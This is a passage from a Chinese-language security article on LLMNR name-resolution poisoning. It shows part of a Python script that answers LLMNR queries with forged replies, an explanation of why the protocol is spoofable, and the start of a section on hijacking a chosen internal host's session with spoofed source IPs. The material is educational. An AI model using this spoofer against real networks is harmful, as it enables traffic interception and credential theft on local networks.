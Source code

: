                 tid = data[0:2]
                namelen = struct.unpack('>B', data[12])[0]
                name = data[13:13 + namelen]
    
                data = self.AnswerData.replace('TID', tid)
                data = data.replace('LENGTH', struct.pack('>B', namelen))
                data = data.replace('NAME', name)
                data = data.replace('IPADDR', socket.inet_aton(self.IPADDR))
    
                print "Poisoned answer(%s) sent to %s for name %s " % (self.IPADDR, addr[0], name)
                self.las.sendto(data, addr)
    
            self.las.setsockopt(socket.IPPROTO_IP, socket.IP_DROP_MEMBERSHIP,
                           socket.inet_aton(self.MulADDR) + socket.inet_aton(self.HOST))
            self.las.close()
    
    if __name__ == "__main__":
        llmnr = LLMNR_Answer("11.22.33.44")
        llmnr.Answser()
    

最终执行后结果如下图所示：

![](http://static.wooyun.org//drops/20151206/201512061200143094966.png)

图 6：Python 实现 LLMNR 质询与应答 1

下图为模拟主机查询主机名称为**Wooyun**的结果

![](http://static.wooyun.org//drops/20151206/201512061200168485176.png)

图 7：Python 实现 LLMNR 质询与应答 2

# 0x04 LLMNR Poison 攻击原理

* * *

图 2 说明了一个完整的正常的 LLMNR 质询/应答过程。由于 LLMNR 使用了无连接的 UDP协议发送了广播，之后，多播组内的主机就可以对发起名称解析的主机进行应答，因此，在这个过程中，攻击者就有机可乘。

攻击者可以将自己的主机加入到组播组中，当收到其他主机进行名称解析的质询请求，就可以对发起此次名称解析的主机进行“恶意”应答。利用此缺陷进行欺骗攻击的方式称为**LLMNR Poison 攻击**。

“恶意”应答过程如下图所示：

![](http://static.wooyun.org//drops/20151206/201512061200187531786.png)

图 8： 攻击者进行“恶意”应答过程图示

LLMNR 名称解析的最大缺陷就是，在当前局域网中，无论是否存在主机 B（假定机器名为：SECLAB-HER0IN），只要有主机请求 **SECLAB-HER0IN** 都会进行一次 LLMNR 名称解析。

# 0x05 利用伪造源 IP + LLMNR Poisone 劫持内网指定主机会话

* * *

由于 UDP 是面向无连接的，所以不存在三次握手的过程，因此，在 LLMNR 名称解析过程中，UDP 的不安全性就凸显出来了。攻击者可以伪造源 IP地址向广播地址发送 LLMNR 名称解析质询，之后攻击者再对这个质询进行应答，完全是一场 “自导自演” 的戏。
